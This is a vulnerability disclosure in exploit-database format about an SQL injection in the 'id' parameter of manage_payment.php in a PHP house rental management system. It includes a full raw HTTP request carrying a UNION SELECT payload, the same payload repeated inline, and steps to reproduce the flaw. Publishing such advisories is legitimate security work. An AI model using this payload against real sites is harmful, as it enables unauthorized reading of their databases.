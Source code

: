 # Best house rental management system project in php manage_payment.php SQL Injection vulnerability

Exploit Title: Best house rental management system project in php manage_payment.php SQL Injection vulnerability  
Exploit Author: webraybtl@webray.com.cn inc  
Vendor Homepage: https://www.sourcecodester.com/php/17375/best-courier-management-system-project-php.html  
Software Link: https://www.sourcecodester.com/download-code?nid=17375&title=Best+house+rental+management+system+project+in+php+  
Version: Best house rental management system project in php v1.0

## Description

The reason for the SQL injection vulnerability is that the website application does not verify the validity of the data submitted by the user to the server (type, length, business parameter validity, etc.), and does not effectively filter the data input by the user with special characters , so that the user's input is directly brought into the database for execution, which exceeds the expected result of the original design of the SQL statement, resulting in a SQL injection vulnerability. Best house rental management system project in php manage_payment.php does not filter the content correctly at the "id" parameter, resulting in the generation of SQL injection.

#### Payload used:

```plaintext
GET /manage_payment.php?id=0+UNION+SELECT+null,null,null,user(),null+--+ HTTP/1.1
Host: 192.168.56.128:8080
Accept-Encoding: gzip, deflate
Priority: u=0
Referer: http://192.168.56.128:8080/index.php?page=invoices
Cookie: PHPSESSID=l9bepm47dqojg3l0o826l4kcd0
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64; rv:130.0) Gecko/20100101 Firefox/130.0
Accept: */*
Accept-Language: zh-CN,zh;q=0.8,zh-TW;q=0.7,zh-HK;q=0.5,en-US;q=0.3,en;q=0.2
X-Requested-With: XMLHttpRequest
```

#### Proof of Concept

1. Visit the homepage, click to edit the entry, and after capturing the package, find that the file used is manage_payment.php.

​![image](assets/image-20240919135816-n8t9gv4.png)​

2. Upon reviewing the source code, it was discovered that the id parameter was directly concatenated into the SQL statement

​![image](assets/image-20240919141520-79p66x4.png)​

3. Construct SQL injection, query database user name, and successfully reproduce SQL injection vulnerabilities.

payload：`0+UNION+SELECT+null,null,null,user(),null+--+`​

​![image](assets/image-20240919142141-iwbhpwq.png)​

​![image](assets/image-20240919142551-4xrl3zh.png)​

​![image](assets/image-20240919142148-sgr0mi2.png)​
